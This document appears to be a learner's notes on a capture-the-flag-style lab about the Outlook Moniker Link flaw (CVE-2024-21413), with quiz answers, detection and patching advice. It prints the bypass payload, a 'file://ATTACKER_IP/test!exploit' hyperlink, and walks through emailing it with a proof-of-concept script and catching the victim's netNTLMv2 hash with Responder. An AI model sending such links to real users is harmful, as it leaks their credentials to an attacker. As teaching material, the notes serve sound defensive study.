





Introduction
- on February 13th 2024, MS announced a Microsoft Outlook RCE & credential leak vulnerability
- with the assigned CVE of CVE-2024-21413 (https://www.cve.org/CVERecord?id=CVE-2024-21413) -> Moniker Link
- Haifei Li of Check Point Research is credited with discovering the vulnerability (https://research.checkpoint.com/2024/the-risks-of-the-monikerlink-bug-in-microsoft-outlook-and-the-big-picture/)

- the vulnerability bypasses Outlooks security mechanisms when handing a specific type of hyperlink known as a Moniker Link
- an attacker can abuse this by sending an email that contains a malicious Moniker Link to a victim
- resulting in Outlook sending the user's NTLM credentials to the attacker once the hyperlink is clicked

- details relating to the scoring of the vulnerability have been provided in the table below

- the vulnerability is known to affect the following Office releases:

Learning Objectives
- how the vulnerability works
- understand Outlook's "protected view"
- using the vulnerability to leak credentials from an Outlook client
- Detection and mitigation measures

What "Severity" rating has the CVE been assigned?
- Critical

Moniker Link (CVE-2024-21413)
- outlook can render emails as HTML
- you may notice this being used bu your favourite newsletterrs
- additionally Outlook can parse hyperlinks such as HTTP and HTTPS
- however it can also open URLs specifying applications known as Moniker Links (https://learn.microsoft.com/en-us/windows/win32/com/url-monikers)
- normally Outlook will prompt a security warning when external applications are triggered

- this pop-up is a result of Outlook's "Protected View" 
- Protected View opens emails containing attachments, hyperlinks and similar content in read-only mode
- blocking things such as macros (especially from outside an organisation)

- by using the 'file://' Moniker Link in our hyperlink, we can instruct Outlook to attempt to access a file...
- such as a file on a network share (`<a href="file://ATTACKER_IP/test">Click me</a>`)
- the SMB protocol is used, which involves using local credentials for authentication
- however Outlook's "Protected View" catches and blocks this attempt

- the vulnerability here exists by modifying our hypering to include the '!' special character
- and some text in our Moniker Link which results in bypassing Outlook's Protected View
- for example `<a href="file://ATTACKER_IP/test!exploit">Click me</a>`

- we, as attackers, can provide a Moniker Link of this nature for the attack
- note the share does not need to exist on the remote device
- as an authentication attempt, will be attempted regardless
- leading to the victim's Windows netNTLMv2 hash being sent to the attacker

- Remote Code Execution (RCE) is possible because Moniker Links uses the Component Object Model (COM) on Windows
- however explaining this is currently out the scope of this room
- as there is no publicly released proof of concept for achieveing RCE via this specific CVE

What Moniker Link type do we use in the hyperlink?
- file://

What is the special character used to bypass Outlook's "Protected View"?
- !

Exploitation
- for this attack we will email our victim a Moniker Link similar to the one provided in the previous task
- the objective, as the attacker, is to craft an email to the victim with a Moniker Link that bypasses Outlook's Protected View
- where the victims client will attempt to load a file from our attacking maching, resulting in the victims netNTLMv2 hash being captured

- but first lets run through a PoC thats been created (https://github.com/CMNatic/CVE-2024-21413)

- the PoC:
- takes an attacker and victim email. normally you would need to use your own SMTP server (this is alr provided in the room)
- requires the password to authenticate. for this room the password for attacker@monikerlink.thm is attacker
- contains the email content (html_content) which contains our Moniker Link as a HTML hyperlink
- then fill in the "subject", "to", and "from" fields in the email
- finally it sends the email to the mail server

- lets use Responder to create an SMB listener on our attacking machine
- for the THM attackbox the interface will be '-I ens5' 
- the interface name will differ if you are using your own device i.e. Kali
- if you would like some homework an Impacket server can also be used

- lets open the vulnerable maching by pressing the "CVE-2024-21413" pane in the split screen view

- open Outlook by clicking the shortcut on the desktop
- when outlook has opened click "i dont want to sign in or create an account" on the popup

- dismiss the second popup by clicking on the "X" at the top right

- when completed you will see the Outlook interface
- for this room, the victims mailbox has already been setup

- return to your AttackBox
- we will copy and paste the PoC above onto the attackbox

- for this we will create a new file on the attackbox
- 'nano exploit.py' and use the slide out tray in the split screen view

- we will then need to do some initial setup on our attackbox before running the python script
- modify the Moniker Link (line 12) in our PoC to reflect the IP addr of our attackbox
- replace the MAILSERVER placeholder (line 31) with 10.80.155.153

- when done we can run the exploit
- when prompted for the attacker's email password enter "attacker"

- the python script will print "Email Delivered" when the email has been sent
- if the script complains about authentication failure, ensure you have correctly replaced the values in exploit.py
- now lets return to the vulnerable machine and check the new email

- click on the "Click me" hyperlink and return to our "Responder" terminal session on the attackbox

- success! the victims netNTLMv2 hash has been captured on our attackbox

What is the name of the application that we use on the AttackBox to capture the user's hash?
- Responder

What type of hash is captured once the hyperlink in the email has been clicked?
- netNTLMv2

Detection
YARA
- A Yara Rule (https://github.com/Neo23x0/signature-base/blob/master/yara/expl_outlook_cve_2024_21413.yar)
- has been created by Florian Roth (https://x.com/cyb3rops/status/1758792873254744344)
- to detect emails containing the '`file:\\`' element in the Moniker Link

Wireshark
- additionally the SMB request from the victim to the client can be seen in a packet capture with a truncated netNTLMv2 hash

Remediation
- Microsoft has included patches to resolve this vuln in February's "patch Tuesday" release
- you can see a list of KB articles by office build here (https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413)
- updating office through windows update or the microsoft update catalog (https://www.catalog.update.microsoft.com/Home.aspx) is strongly recommended

- addiotionally in the meantime its a timely reminder to practice general - safe - cyber security practices
- for example reminding users to:
- do not click random links (especially from unsolicited emails)
- preview links before clicking them
- forward suspicious emails to the respective department responsible for cyber security

- since this vuln bypasses Outlooks Protected View there is no way to reconfigure Outlook to prevent this attack
- additionally preventing the SMB protocol entirely may do more harm than good
- especially as it is essential for accessing network shares
- however you may be able to block this at the firewall level, depending on the org

Conclusion
- as we know Outlook is an extremely popular email client
- the CVE is known to affect a large portion of the Office suite
- and given its extremly low attack complexity its quite a spicy one

- remember its essential to update Outlook through windows update or the Microsoft update catalog as soon as possible
- as there is no way to prevent Outlooks Protected View from being bypassed